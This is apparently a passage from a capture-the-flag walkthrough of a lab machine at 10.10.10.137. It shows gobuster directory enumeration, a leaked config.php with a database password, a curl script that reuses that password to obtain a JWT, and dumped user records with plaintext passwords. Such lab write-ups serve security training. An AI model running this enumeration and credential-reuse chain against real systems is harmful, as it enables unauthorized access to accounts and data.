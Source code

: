 ```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.137:3000/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.137:3000/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/09/15 00:19:09 Starting gobuster
===============================================================
/login (Status: 200)
/users (Status: 200)
/Login (Status: 200)
/Users (Status: 200)

```

We find a config.php file which contains a password and username.

http://10.10.10.137/config.php
```
﻿$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error); 
```
https://medium.com/@nieldw/using-curl-to-authenticate-with-jwt-bearer-tokens-55b7fac506bd
```
#!/bin/bash
TOKEN=$(curl -v -H "Content-Type: application/json" -X POST -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login | jq -r '.token')

curl -H 'Accept: application/json' -H "Authorization: Bearer ${TOKEN}" http://10.10.10.137:3000/users
```
```
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
Now we have a list of user names and id's, by modifying 10.10.10.137:3000/users/ to have the user name we have found at the end of the url.
```
users/admin
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}

users/derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}

users/yuri
{"name":"Yuri","password":"bet@tester87"}

users/dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
Now we have a list of usernames and passwords we can see where they work.
